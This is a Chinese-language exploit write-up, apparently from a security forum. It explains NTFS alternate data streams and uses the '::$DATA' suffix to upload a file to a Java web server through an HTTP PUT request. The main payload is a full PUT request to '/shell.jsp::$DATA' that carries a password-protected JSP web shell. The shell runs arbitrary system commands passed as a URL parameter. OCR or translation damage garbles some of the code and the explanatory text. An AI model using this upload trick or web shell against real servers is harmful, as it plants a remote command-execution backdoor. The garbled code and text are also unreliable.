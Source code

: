 #### 漏洞利用

##### 上传姿势一：

参考思路:微软MSDN上关于NTFS Streams的一段资料https://msdn.microsoft.com/en-us/library/dn393272.aspx

大概意思:

[NTFS](https://forum.90sec.com/t/topic/66#gt_86f79a17-c0be-4937-8660-0cf6ce5ddc1a)卷上的所有文件至少包含一个流 - 主流 - 这是存储数据的普通可查看文件。流的全名是以下形式。

```
Copy to clipboard<filename>：<stream name>：<stream type> 
```

默认数据流没有名称。也就是说，名为`sample.txt`的文件的默认流的完全限定名称是`ample.txt :: $ DATA`，因为`sample.txt`是文件的名称，`$ DATA&`是流类型。

用户可以在文件中创建命名流，并将`$ DATA`创建为合法名称。这意味着对于此流，全名是`sample.txt：$ DATA：$ DATA`。如果用户创建了名为`bar`的命名流，则其全名为`sample.txt：bar：$ DATA`。文件名的任何合法字符对于流名称（包括空格）都是合法的。

对于目录，没有默认数据流，但有一个默认目录流。目录是流类型$ INDEX_ALLOCATION。$ INDEX_ALLOCATION类型（目录流）的默认流名称是$ I30。（这与$ DATA流的默认流名称形成对比，后者具有空的流名称。）以下是等效的：

```
Copy to clipboardDir C：\ Users
Dir C：\ Users：$ I30：$ INDEX_ALLOCATION
Dir C：\ Users :: $ INDEX_ALLOCATION 
```

虽然目录没有默认数据流，但它们可以具有命名数据流。这些备用数据流通常不可见，但可以使用DIR命令的/ R选项从命令行观察。

payload:

```
PUT /shell.jsp::$DATA HTTP/1.1  
Host: 172.26.1.8:8080  
Content-Length: 662 `<%@ page language=“java” import=“java.util.*,[java.io](http://java.io).*” pageEncoding=“UTF-8”%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec©;BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp

+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if(“023”.equals(request.getParameter(“pwd”))&&!"".equals(request.getParameter(“cmd”))){out.println("<pre>"+excuteCmd(request.getParameter(“cmd”))+"</pre>");}else{out.println(":-)");}%>` 
```

我们利用burpsuite来发送我们的payload

![image](img/abb64aa25dcd0a1af33603d3722422d6.png)
